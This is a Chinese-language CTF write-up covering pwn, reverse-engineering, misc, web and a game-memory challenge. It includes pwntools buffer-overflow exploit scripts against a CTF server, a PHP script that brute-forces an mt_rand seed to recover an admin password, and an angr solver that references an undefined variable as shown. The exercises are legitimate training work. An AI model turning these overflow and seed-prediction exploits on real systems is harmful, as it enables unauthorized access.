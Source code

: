 # return 0; wp

## pwn

### Password_checker

![](https://i.imgur.com/JwjIu9J.png)  

![](https://i.imgur.com/AO4VZzy.png)

```python
from pwn import *
from ctypes import *
import time

p=remote('ctf.asuri.org',20002)
p.sendline('a'*(260-4))
p.sendline('s'+p32(0x8048674)*8)
p.interactive()
```
然后在出来的文件系统中找到home/ctf/flag文件即可获得flag

### overflow

![](https://i.imgur.com/Td3r3LN.jpg)
下载文件之后  
直接拖进ida
然后找到main函数和旁边的sub_80485BD，溢出一下得到flag

```python
from pwn import *
from ctypes import *
import time

p=remote('ctf.asuri.org',20001)
libc = CDLL('libc.so.6')
t=libc.time(0)
print(hex(t))
libc.srand(t)
anser=libc.rand()
print(hex(anser))
p.sendline('a'*(0xFFC511CC-0xFFC511AC)+p32(anser)+'b'*(0xFFC511DC-0xFFC511CC-4)+p32(0x080485BD))

p.interactive()
```
## rev

### middle

```python
#!/usr/bin/env python
# coding=utf-8
import angr,string
import claripy
import pickle
import sys
import logging
import time
logging.getLogger('angr').setLevel('WARNING')

p = angr.Project('./middle.bin', load_options={'auto_load_libs': False})

# 804A0D8
# 804A0D0

def decode():  # 400D33
    symbols = [claripy.BVS('crypto%d' % i, 8) for i in range(24)]
    
    Content = claripy.Concat(*symbols)
    Stat0e = p.factory.blank_state(
        addr=0x000000080488EB ,
        stdin=Content,
        #add_options=angr.options.unicorn, #| {angr.options.ZERO_FILL_UNCONSTRAINED_MEMORY},
        remove_options={}
    )
    key = [claripy.BVS('key%d' % i, 8) for i in range(4)]
    state.memory.store(0x804A0D4,claripy.Concat(*key),4)
  
    for k in symbols:
        state.solver.add(k != 10)
        so1=state.solver.And( k > 8, k < 14)
        so2=state.solver.And( k > 31, k < 127)
        state.solver.add(state.solver.Or(so1,so2)==True)
    @p.hook(0x00000080489C3, length=5)
    def index(_state):
        print(_state, '233333')
    @p.hook(0x0000804882A, length=0)
    def index(_state):
        print(_state, '0x0000804882A')
    
    @p.hook(0x0008048831 , length=6)
    def index(_state):
        print(_state, 'pass')
        
        
    @p.hook(0x00804883E, length=0)
    def index(_state):
        print(_state, 'no pass')
    
    @p.hook(0x0008048863 , length=0)
    def index(_state):
        print(_state, '08048899')
      
    simulation = p.factory.simulation_manager(state)
    res = simulation.explore(find=0x0080488AF ,avoid=[0x080488BD ])  # , enable_veritesting=True
    print(len(res.found))
    result = []
    for pp in res.found:
        tmp = pp.solver.eval_upto(Content, 10,cast_to=bytes)
        print('yes',tmp)
        tmp = pp.solver.eval_upto(claripy.Concat(*key),10, cast_to=bytes)
        print('yes',tmp)
if __name__ == "__main__":
    decode()
```
## misc

### plot

用CAXA编程助手打开即得到flag
![](https://i.imgur.com/5NMqPxc.png)

### rev

```python
enc_flag = '86la1l52l9fl93l9dl97l52l9bla6l52l9fla1la4l97l52l96l9bl98l98l9bl95la7l9ela6l52la6la1l52l95l93l9el95la7l9el93la6l97l52la6l9al97l52l98l9el93l99l52l94labl52l9al93la0l96l5el52la0la7l93l93l95la6l98ladla2labl91la7la0l95la1l9fla2labl9el97lafl5el52l98l9el93l99l52l9bla5l52l98la1la4l52la5l95la4l9bla2la6la5l'
enc_flag=enc_flag.replace('l','')
b=bytes.fromhex(enc_flag)

print(b)
for k in b:
    print(chr(k-50),end='')
```



## Web

### 令人怀念的南邮综合题（确确实实是做出来了那种感觉）

![](http://thyrsi.com/t6/639/1545616214x2728278644.png)

先wascan扫一遍后台（抱歉咯）XD
发现存在一个www.zip的文件，下载以后打开发现是几个源码
然后就是痛苦的代码审计

![](http://thyrsi.com/t6/639/1545616764x2890174375.png)
在百度了两千年以后发现这边有点毛病，看上去管理员的密码是可控的，
然后就在网页里边随便注册了一个（其实是好几个）账号，
点击某个按钮以后跳转到某个网页，给了个int的值
![](http://thyrsi.com/t6/639/1545617009x2890174375.png)
（其实在此之前还跑了很多遍这个网页，操作成功的不是这个值）

```php
<?php
ini_set('max_execution_time', '0');
for($i=100000;$i++;$i<=1000000){
    mt_srand($i);
	if(mt_rand() == $_GET[1]){
        die(substr(md5(mt_rand()),0,6));
    }
}
?>

```
然后跑一下这串代码，得到admin（几来着）的密码，fefe还是tete什么的来着
最后登录admin拿到flag

## Re

### 车万狗的基本素养

#### 这道题真的不是misc吗？

————————————————————————————————————————————————

打开游戏，强打，失败（灵力真是少得可怜啊

然后开ce，老规矩，先吃几个p点，我这里是吃到1.12以后然后开始搜索的
ce搜索112，发现有个地址先前的值为100，那肯定就是灵力没跑了，修改值为400，然后锁定
![](http://thyrsi.com/t6/639/1545617335x2890174375.png)

后来发现满灵力是500，索性就改了（这真的是dld而不是fsl么

最后进游戏，一路炸炸炸，拿到flag

![](http://thyrsi.com/t6/639/1545617412x2890174375.png)


答应我，下次用luastg好吗
